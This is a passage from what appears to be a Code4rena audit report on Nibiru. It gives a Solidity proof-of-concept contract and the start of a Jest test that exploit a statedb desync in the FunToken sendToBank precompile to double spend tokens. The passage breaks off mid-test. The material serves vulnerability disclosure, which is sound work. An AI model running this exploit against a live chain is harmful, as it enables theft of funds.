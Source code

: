 >     function sendToBank(address erc20, uint256 amount, string calldata to) external returns (uint256 sentAmount);
> }
> 
> contract POC24 {
>     IFunToken public  funToken = IFunToken(0x0000000000000000000000000000000000000800);
>     IERC20 public erc20 = IERC20(0x7D4B7B8CA7E1a24928Bb96D59249c7a5bd1DfBe6);
>     // recipient is validator and it's different from account which would be used to pay evm gas    
>     string public recipient =  "nibi1zaavvzxez0elundtn32qnk9lkm8kmcsz44g7xl";
> 
>     function attack() public {
>         // transfer fun token to any address to dirty the statedb
>         // transferring to self won't work because of this
>         // https://github.com/code-423n4/2024-11-nibiru/blob/main/x/evm/statedb/statedb.go#L561
>         // After further test, this part is not necessary
>         // erc20.transfer(0x000000000000000000000000000000000000dEaD, 1);
>         
>         uint balance = erc20.balanceOf(address(this));
>         // sendToBank should reduce balance to zero, but it won't
>         // cacheCtx, yes. But in statedb, No
>         funToken.sendToBank(address(erc20), balance, recipient);
> 
>         // increment journal from 0 because of this
>         // https://github.com/code-423n4/2024-11-nibiru/blob/main/x/evm/statedb/statedb.go#L571
>         // Also, did you noticed we transferred the whole balance in sendToBank
>         // But, statedb thinks we have balance
>         erc20.transfer(0x000000000000000000000000000000000000dEaD, 1);
>     }
> }
> ```
> 
> **5. Create Test:**
>
> Add the following to [test](https://github.com/code-423n4/2024-11-nibiru/tree/main/evm-e2e/test) in new file named `poc24.test.ts`
>
> ```ts
> import { describe, it } from '@jest/globals';
> import { parseUnits, formatUnits, Contract } from 'ethers';
> import { account, provider } from './setup';
> import {
>     POC24__factory,
> } from '../types';
> 
> 
> describe('POC24 tests', () => {
>     // Before test, add nibi to funtoken and mint some
>     // nibid tx evm create-funtoken --bank-denom unibi --from validator --gas auto --gas-adjustment 1.5 --note "" --yes
>     // nibid tx evm convert-coin-to-evm 0xC0f4b45712670cf7865A14816bE9Af9091EDdA1d 1000000000000unibi --from validator --gas auto --gas-adjustment 1.5 --note "" --yes
>     it ('it should double spend', async () => {
>         const transferAmount = parseUnits("1000", 6);
>         const erc20Abi = [
>             "function transfer(address recipient, uint256 amount) external returns (bool)",
>             "function balanceOf(address _owner) public view returns (uint256 balance)"
>         ];
>         
>         const nibi_erc20 = new Contract("0x7D4B7B8CA7E1a24928Bb96D59249c7a5bd1DfBe6", erc20Abi, account);
> 
>         // deploy contract
>         const factory = new POC24__factory(account);
>         const contract = await factory.deploy();